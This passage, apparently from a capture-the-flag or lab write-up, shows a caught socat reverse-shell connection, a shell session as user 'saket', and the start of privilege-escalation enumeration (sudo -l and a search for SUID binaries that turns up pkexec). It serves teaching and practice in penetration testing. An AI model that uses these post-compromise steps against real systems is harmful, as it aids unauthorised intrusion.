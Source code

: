 ```shell
                                                                 2023/08/17 18:47:48 socat[289955] N accepting connection from AF=2 10.69.96.74:58998 on AF=2 10.69.96.100:443
                                                                   2023/08/17 18:47:48 socat[289955] N starting data transfer loop with FDs [5,5] and [7,7]


saket@ubuntu:~$ 
saket@ubuntu:~$ 
saket@ubuntu:~$ export TERM=xterm-256color
saket@ubuntu:~$ stty rows 22 columns 107
saket@ubuntu:~$ ^C
saket@ubuntu:~$ whoami; hostname; id; ip a
saket
ubuntu
uid=1000(saket) gid=1000(saket) groups=1000(saket),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),131(lxd),132(sambashare)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens33: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 00:0c:29:63:51:02 brd ff:ff:ff:ff:ff:ff
    altname enp2s1
    inet 10.69.96.74/24 brd 10.69.96.255 scope global dynamic noprefixroute ens33
       valid_lft 1074sec preferred_lft 1074sec
    inet6 fe80::fc10:35cb:9bea:8aff/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever
```

I'm user `saket`!

## Privilege Escalation

### saket to root

After gaining initial foothold on a target machine, we need to escalate our privilege. To do so, we need to enumerate the system.

**Sudo permission:**
```shell
saket@ubuntu:~$ sudo -l
[sudo] password for saket: 
Sorry, try again.
```

I also tried password reuse from the Python web application, but no luck.

**SUID binaries:**
```shell
saket@ubuntu:~$ find / -perm -4000 2>/dev/null
[...]
/usr/bin/passwd
/usr/bin/fusermount
/usr/bin/newgrp
/usr/bin/su
/usr/bin/umount
/usr/bin/vmware-user-suid-wrapper
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/mount
/usr/bin/pkexec
```